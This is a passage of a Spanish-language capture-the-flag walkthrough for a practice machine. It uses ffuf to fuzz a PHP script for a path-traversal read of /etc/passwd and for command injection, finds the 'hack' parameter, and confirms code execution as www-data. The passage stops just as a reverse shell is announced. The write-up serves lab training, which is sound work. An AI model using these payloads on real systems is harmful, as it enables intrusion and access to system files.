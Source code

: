 ### FFUF

```shell
ffuf -u 'http://sys.hidden.hmv/weapon/loot.php?FUZZ=../../../../../etc/passwd' -w <WORDLIST> -fs 0
```

Pero veremos que no funciona directamente leyendo archivos, por lo que vamos a probar con comandos:

```shell
ffuf -u 'http://sys.hidden.hmv/weapon/loot.php?FUZZ=whoami' -w <WORDLIST> -fs 0
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sys.hidden.hmv/weapon/loot.php?FUZZ=whoami
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

hack                    [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 99ms]
:: Progress: [220560/220560] :: Job [1/1] :: 4545 req/sec :: Duration: [0:00:50] :: Errors: 0 ::
```

Veremos que esta vez si ha funcionado, y el parametro es `hack` por lo que vamos a probarlo de la siguiente forma:

```
URL = http://sys.hidden.hmv/weapon/loot.php?hack=whoami
```

Info:

```
www-data
```

Veremos que realmente funciona, por lo que vamos a generarnos una `reverse shell` de la siguiente forma:
